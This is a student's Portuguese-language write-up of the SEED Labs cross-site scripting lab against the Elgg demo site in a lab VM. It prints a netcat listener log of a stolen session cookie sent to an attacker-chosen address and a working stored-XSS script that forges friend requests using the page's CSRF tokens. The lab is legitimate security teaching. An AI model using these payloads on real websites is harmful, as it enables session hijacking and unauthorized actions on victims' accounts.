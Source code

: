 # Trabalho realizado na Semana #10

## **Seed Labs**

## Tarefa 1

Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil receba um alert.
![alert](images/alert_script.png)
![alert](images/alert.png)



## Tarefa 2


Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil receba um alert com as suas cookies.

![cookie](images/cookie_script.png).png)
![cookie](images/cookie.png)


## Tarefa 3



Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil envie as suas cookies para o endereço à nossa escolha.
![alert](images/send_cookie.png).png)

```

[01/04/22]seed@VM:~/.../Labsetup$ nc -lknv 10.9.0.1 5555
Listening on 10.9.0.1 5555
Connection received on 10.0.2.4 57828
GET /?c=Elgg%3Dpu2btvuk5tn4qja8rmlpu2n7es HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: image/avif,image/webp,*/*
Accept-Language: pt-PT,pt;q=0.8,en;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/

```


## Tarefa 4

Quando alguém adiciona o Sammy aos amigos é gerado o seguinte request URL:

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1641298313&__elgg_token=EngTeTi2UKXmCwYNdnKckQ&__elgg_ts=1641298313&__elgg_token=EngTeTi2UKXmCwYNdnKckQ
```

Pelo que o nosso objetivo será gerar esse mesmo request sempre que alguém entrar no perfil de Samy. Conseguimos isso utilizando o seguinte script que é colocado em "About Me" em modo texto:

```js
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```

Quando um utilizador visita o perfil de Samy, é gerado o request para adicioná-lo aos amigos. O botão "Add friend" continua a aparecer, mas ao dar refresh este muda para "Remove friend", como esperado.


![before](images/before.png)


![after](images/after.png)

Utilizando o HTTP Header Live podemos confirmar que o request está a ser gerado quando um utilizador entra no perfil de Samy, como pretendido.

![req](images/request.png)